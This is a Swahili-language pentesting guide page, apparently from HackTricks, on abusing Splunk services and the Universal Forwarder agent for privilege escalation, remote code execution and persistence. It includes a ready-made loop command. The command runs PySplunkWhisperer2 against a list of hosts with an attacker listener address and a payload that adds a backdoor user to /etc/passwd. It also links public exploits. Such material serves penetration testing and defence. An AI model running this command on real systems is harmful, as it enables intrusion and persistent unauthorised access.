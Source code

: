 # Splunk LPE na Uendelevu

{{#include ../../banners/hacktricks-training.md}}

Ikiwa **unapofanya orodha** ya mashine **ndani** au **nje** unakuta **Splunk inafanya kazi** (bandari 8090), ikiwa kwa bahati unajua **akili halali** unaweza **kutumia huduma ya Splunk** ili **kufanya shell** kama mtumiaji anayekimbia Splunk. Ikiwa root inafanya kazi, unaweza kuongeza mamlaka hadi root.

Pia ikiwa wewe ni **tayari root na huduma ya Splunk haisikii tu kwenye localhost**, unaweza **kuiba** faili ya **nenosiri** **kutoka** kwa huduma ya Splunk na **kufungua** nenosiri, au **kuongeza** akili mpya kwake. Na kudumisha uendelevu kwenye mwenyeji.

Katika picha ya kwanza hapa chini unaweza kuona jinsi ukurasa wa Splunkd unavyoonekana.

## Muhtasari wa Ulaghai wa Splunk Universal Forwarder Agent

Kwa maelezo zaidi angalia chapisho [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/). Hii ni muhtasari tu:

**Muonekano wa Ulaghai:**
Ulaghai unaolenga Splunk Universal Forwarder Agent (UF) unaruhusu washambuliaji wenye nenosiri la wakala kutekeleza msimbo wowote kwenye mifumo inayokimbia wakala, ambayo inaweza kuhatarisha mtandao mzima.

**Mambo Muhimu:**

- Wakala wa UF hauhakiki muunganisho unaokuja au uhalali wa msimbo, hivyo unafanya kuwa hatarini kwa utekelezaji wa msimbo usioidhinishwa.
- Njia za kawaida za kupata nenosiri ni pamoja na kuzitafuta katika directories za mtandao, kushiriki faili, au nyaraka za ndani.
- Ulaghai uliofanikiwa unaweza kusababisha ufikiaji wa kiwango cha SYSTEM au root kwenye mwenyeji walioathirika, uhamasishaji wa data, na kuingia zaidi kwenye mtandao.

**Utekelezaji wa Ulaghai:**

1. Mshambuliaji anapata nenosiri la wakala wa UF.
2. Anatumia API ya Splunk kutuma amri au skripti kwa wakala.
3. Vitendo vinavyowezekana ni pamoja na uchimbaji wa faili, usimamizi wa akaunti za mtumiaji, na kuathiri mfumo.

**Athari:**

- Kuathiri mtandao mzima kwa ruhusa za kiwango cha SYSTEM/root kwenye kila mwenyeji.
- Uwezekano wa kuzima uandishi wa kumbukumbu ili kuepuka kugunduliwa.
- Usanidi wa milango ya nyuma au ransomware.

**Amri ya Mfano kwa Ulaghai:**
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
**Matukio ya umma yanayoweza kutumika:**

- [https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2)
- [https://www.exploit-db.com/exploits/46238](https://www.exploit-db.com/exploits/46238)
- [https://www.exploit-db.com/exploits/46487](https://www.exploit-db.com/exploits/46487)

## Kutumia Maswali ya Splunk

**Kwa maelezo zaidi angalia chapisho [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis)**

{{#include ../../banners/hacktricks-training.md}}
